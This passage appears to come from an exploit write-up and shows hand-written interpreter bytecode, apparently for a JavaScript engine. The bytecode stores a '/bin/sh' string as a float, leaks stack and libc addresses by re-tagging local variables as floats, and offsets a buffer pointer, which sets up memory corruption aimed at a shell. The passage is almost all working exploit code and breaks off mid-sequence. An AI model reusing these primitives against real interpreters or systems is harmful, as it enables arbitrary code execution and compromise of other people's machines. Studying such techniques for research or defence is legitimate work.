 My main assembly now looks like this:
```
:stack_size 1

@flt_bin_sh_str  f.0068732F6E69622F

# The asterisk refers to the hardcoded bytecode of the function. The file name
# in angle brackets tells the assembler to read that file and assemble it.
@float_add_raw *
@stack_leak_prep <stack_leak_prep.s>

# Mark stack address as float using helper function
fclosure8 stack_leak_prep
call0
drop

# Compute offset var_buf address from prepared float + offset
fclosure8 float_add_raw
get_loc 25
push_i32 -384
call2

# Store at safe location for later
put_loc 39

# Copy var_buf to safe location
get_loc 17
put_loc 37

# Offset var_buf by 8
get_loc 39
put_loc 17

## Read var_buf value to get stack reference
# First mark it as a float by writing 7 right after it
push_7
put_loc 37

# Reset var_buf 
get_loc 36
# OG var_buf value is now in loc36 tag
put_loc 16

# Read float
get_loc 37

# Create a duplicate for later
dup

## Get heap address (__libc_start_call_main)
# First mark it as float
push_7
put_loc 226

# Offset var_buf by 8
get_loc 39
put_loc 17

fclosure8 float_add_raw

# Read float
get_loc 225
swap
get_loc 225
```